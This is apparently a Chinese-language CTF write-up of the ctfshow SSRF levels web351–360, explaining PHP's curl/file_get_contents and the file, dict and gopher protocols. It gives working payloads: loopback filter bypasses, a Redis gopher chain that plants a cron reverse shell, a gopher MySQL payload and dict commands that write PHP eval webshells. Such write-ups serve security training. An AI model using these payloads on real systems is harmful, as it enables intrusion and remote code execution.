



前言

SSRF (全称：Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。
如图，攻击者从外网通过 SSRF 攻击访问到内网，接着对内网的应用展开攻击，这些应用包括但不限于 MySQL，redis，SMTP 等等 ……
正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统。
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定 URL 地址获取网页文本内容，加载指定地址的图片，下载等等。
SSRF 的利用方式
SSRF 利用相关的危险函数；SSRF 可利用的协议操作
file_get_contents() 与 readfile()
file_get_contents这一函数是把 **传入的参数(变量)**写入字符串，当把 传参是内网文件的时候，会先去吧这个文件的内容读出来再写入，导致了任意文件读取，也就是信息泄露的一种。一般这种攻击也与目录遍历相结合。
fsockopen()
fsockopen($hostname,$port,$errno,$errstr,$timeout)用于打开一个网络连接或者一个 Unix 套接字连接，初始化一个套接字连接到指定主机（hostname），实现对用户指定 url 数据的获取。该函数会使用 socket 跟服务器建立 tcp 连接，进行传输原始数据。 fsockopen() 将返回一个文件句柄，之后可以被其他文件类函数调用（例如：fgets()，fgetss()，fwrite()，fclose()还有feof()）如果调用失败，将返回false。
curl_exec()
- curl_init(url) 函数初始化一个新的会话，返回一个 cURL 句柄，供
curl_setopt()，curl_exec()和curl_close()函数使用。
file 协议的利用
file:///etc/password # file:// 之后可以接任意文件dict 协议的使用
利用dict协议，dict://ip/info 可获取本地redis服务配置信息。gopher 协议的使用
首先先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
//redis-cli查看所有的keys及清空所有的数据这便是常见的exp，只需自己更改IP和端口即可，改成适配于Gopher协议的 URL：
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0经过url解码便是：
gopher://127.0.0.1:6379/_*1 $8 flushall *3 $3 set $1 1 $64 */1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1 *4 $6 config $3 set $3 dir $16 /var/www/html/ *4 $6 config $3 set $10 dbfilename $4 root *1 $4 save quitweb351-360
web351(curl_exec)
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?> $ch=curl_init($url);：这行代码初始化cURL会话，并将变量$url作为要请求的URL。curl_setopt($ch, CURLOPT_HEADER, 0);：设置cURL选项，告诉cURL不要在输出中包含HTTP头信息。curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);：设置cURL选项，使得执行curl_exec后返回的不是直接输出，而是将结果作为字符串返回。$result=curl_exec($ch);：执行cURL会话，并获取结果，存储在变量$result中。curl_close($ch);：关闭cURL会话，释放资源。
Payload
POST: url=http://127.0.0.1/flag.php
url=http://localhost/flag.php
url=file:///var/www/html/flag.phpweb352(localhost|127.0.0.1绕过)
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
die('hacker');
}
}
else{
die('hacker');
}
?> hacker得有http|https但是ban了localhost|127.0.0(幽默过滤，后面没有1，所以之前payload也可以)
Payload:
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php
还有一种特殊的省略模式
127.0.0.1写成127.1
用CIDR绕过localhost
url=http://127.127.127.127/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
payload：url=http://127.1/flag.php补充一点
parse_url 是 PHP 中的一个函数，用于解析一个 URL 并返回其组成部分作为数组。这个函数非常适用于需要从 URL 中提取协议、主机名、路径等信息的场景。
函数原型
parse_url(string $url, int $component = -1): mixed参数
$url：需要解析的 URL 字符串。$component（可选）：指定返回 URL 的哪个部分。可以是以下常量之一：PHP_URL_SCHEME：返回 URL 的协议部分（如http,https）。PHP_URL_HOST：返回 URL 的主机部分（如www.example.com）。PHP_URL_PORT：返回 URL 的端口部分（如果存在）。PHP_URL_USER：返回 URL 的用户名部分（如果存在）。PHP_URL_PASS：返回 URL 的密码部分（如果存在）。PHP_URL_PATH：返回 URL 的路径部分（如/path/to/resource）。PHP_URL_QUERY：返回 URL 的查询字符串部分（如果存在）。PHP_URL_FRAGMENT：返回 URL 的片段标识符部分（如果存在）。
如果省略此参数或设置为
-1，parse_url将返回包含所有部分的数组。
返回值
- 如果成功，返回一个数组，包括 URL 的各个组成部分。
- 如果 URL 格式不正确或无法解析，返回
false。
web353
if(!preg_match('/localhost|127\.0\.|\。/i', $url))多过滤了句号，上题Payload也可以
web354(解析域名)
if(!preg_match('/localhost|1|0|。/i', $url))1和0过滤了
302跳转，vps搭一个 :
<?php
header("Location: http://127.0.0.1/flag.php");POST: url=http://your-domain/ssrf/302.php
Y4师傅找到一个A记录是127.0.0.1的网站: http://sudo.cc/，可以不用解析自己的了
payload:url=http://sudo.cc/flag.php
web355
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
die('hacker');
}
}
else{
die('hacker');
}
?>没有做其他过滤，但限制了host的长度
0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0
Payload：
POST: url=http://0/flag.php
url=http://127.1/flag.phpweb356
if((strlen($host)<=3))Payload:
POST: url=http://0/flag.phpweb357(重定向)
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
die('ip!');
}
echo file_get_contents($_POST['url']);
}
else{
die('scheme');
}
?> scheme$ip = gethostbyname($x['host']);：使用gethostbyname函数获取URL主机名对应的IP地址。if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {：使用filter_var函数和相应的过滤器检查IP地址是否有效，并且不是私有地址或保留地址。如果IP地址无效，将执行die('ip!');终止脚本执行。
filter_var：这是PHP内置的函数，用于过滤变量并进行验证。它接受两个参数：第一个是要验证的变量，第二个是过滤选项。FILTER_VALIDATE_IP：这是一个用于filter_var的选项，用来验证提供的变量是否是一个有效的IP地址。FILTER_FLAG_NO_PRIV_RANGE：这是一个可选的标志，用来排除私有IP地址范围。私有IP地址通常用于内部网络，并不在互联网上路由。这些地址包括以下范围：10.0.0.0到10.255.255.255172.16.0.0到172.31.255.255192.168.0.0到192.168.255.255
FILTER_FLAG_NO_RES_RANGE：这是另一个可选的标志，用来排除保留的IP地址范围。保留的IP地址通常不分配给特定的网络设备，而用于特殊用途，如多播地址。$ip：这是要验证的IP地址变量。if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE))：这条if语句检查$ip是否通过了验证。如果$ip不是一个有效的IP地址，或者是一个私有或保留的IP地址，filter_var将返回false，然后执行if语句块内的代码。
利用302跳转和dns重绑定都可以。
在自己服务器上写个index.php文件内容如下
<?php
header("Location:http://127.0.0.1/flag.php"); Payload：
http://xxx.xxx.xxx.xx/xxx.phpweb358(@127.0.0.1)
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
echo file_get_contents($url);
}
正则表达式的意思是以http://ctf.开头，以show结尾。
以show结尾比较好办，要么#show，要么?a=show这样的都可以。
以http://ctf.开头的话，加上一个@127.0.0.1就可以绕过了，这样parse_url解析出来的host是127.0.0.1，考虑到ftp：
ftp://user[:pass]@ip[:port]/path，因此前面的ctf.会被解析成user。
Payload:
url=http://ctf.@127.0.0.1/flag.php#showweb359(mysql gopherus)
Hint:打无密码的mysql
SSRF利用 Gopher |Gopher攻击mysql及内网

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%45%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%30%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%31%2e%70%68%70%22%01%00%00%00%01把_后的再进行一次url编码
Payload:
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2545%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2530%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2522%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2531%252e%2570%2568%2570%2522%2501%2500%2500%2500%2501最后访问1.php进行RCE即可
web360(redis)
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?> ssrf打redis，基本上四种攻击方式：
- 写webshell
- 写ssh公钥
- 写contrab计划任务反弹shell
- 主从复制
这题肯定是写shell了，先利用dict探测一下端口，看看6379存不存在，如果目标的redis换端口了，就利用dict协议来探测：

# 设置一下dir，即本地数据库存放目录：
dict://127.0.0.1:6379/config:set:dir:/var/www/html
# 写马，可能会有转义或者过滤的情况，所以用16进制一般都能写成功。
# <?php eval($_POST[0]);?>
dict://127.0.0.1:6379/set:shell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x30\x5d\x29\x3b\x3f\x3e"
# 设置文件
dict://127.0.0.1:6379/config:set:dbfilename:hsad.php
# 保存
dict://127.0.0.1:6379/save
# 访问hsad.php进行rce当然也可以使用gopherus